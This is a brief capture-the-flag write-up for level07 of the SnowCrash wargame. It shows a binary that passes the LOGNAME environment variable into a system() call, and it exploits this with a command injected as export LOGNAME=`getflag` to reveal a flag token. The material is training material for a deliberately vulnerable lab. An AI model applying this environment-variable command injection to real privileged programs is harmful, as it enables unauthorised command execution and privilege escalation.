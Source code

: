 ```
level07@SnowCrash:~$ ls
level07

level07@SnowCrash:~$ ./level07 
level07

level07@SnowCrash:~$ strings level07
...
LOGNAME
/bin/echo %s 
...
```
Use ltrace to get a trace of all the functions used inside the executable.

```
level07@SnowCrash:~$ ltrace ./level07 
...
getenv("LOGNAME") = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff65, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
...
```

We notice that what is printed by the executable is actually LOGNAME.

So let's change it for the result of getflag:

```
level07@SnowCrash:~$ echo $LOGNAME
level07

level07@SnowCrash:~$ export LOGNAME=\`getflag\`

level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```